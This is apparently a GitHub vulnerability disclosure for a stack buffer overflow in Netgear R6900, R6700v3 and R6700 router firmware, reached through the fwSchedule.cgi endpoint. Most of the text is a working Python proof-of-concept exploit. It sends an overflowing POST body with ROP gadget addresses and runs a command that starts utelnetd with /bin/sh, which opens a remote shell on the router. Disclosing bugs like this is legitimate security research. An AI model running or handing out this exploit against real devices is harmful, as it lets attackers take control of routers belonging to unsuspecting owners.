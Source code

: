 # Netgear Routers vulnerability
Netgear includes three new versions of firmware, R6900 1.0.2.26, R6700v3 1.0.4.128, R6700 1.0.0.26. These versions of the firmware are vulnerable to a stack overflow as shown below.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/netgear/vlun.png)

where sprintf v24 has only a finite size of 92 and getInputData v6, v21, v20, v19, v18 are controllable and may overflow the stack-based buffer.
By requesting the /fwSchedule.cgi page, an attacker can execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

## POC
import socket
import sys

header = 'POST /fwSchedulePPP2.cgi?.css.ico/xxx/rpc/ HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.23.0\r\nContent-Length: %d\r\n\r\n'
post_data = 'action=%E5%BA%94%E7%94%A8&checkboxNameAll=checkboxValue&checkboxNamehours=checkboxValue&schedule_day=255&schedule_alldayenable=0&starthour=0&startminute=0&endhour=23&result=apply&enable_apmode=0&endminute=59:00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
gadget = '%84%b7%03%00'
pad = '\x00'+'a'*(0x2d1 - len(post_data + gadget))
gadget2 = '\x48\xf5\x0c\x00'
cmd = '/bin/utelnetd -l/bin/sh -d;\x00'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1] , int(sys.argv[2])))
s.send(header % len(post_data+gadget) + post_data + gadget + pad + gadget2 + cmd)
s.close()

## Timeline

## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.
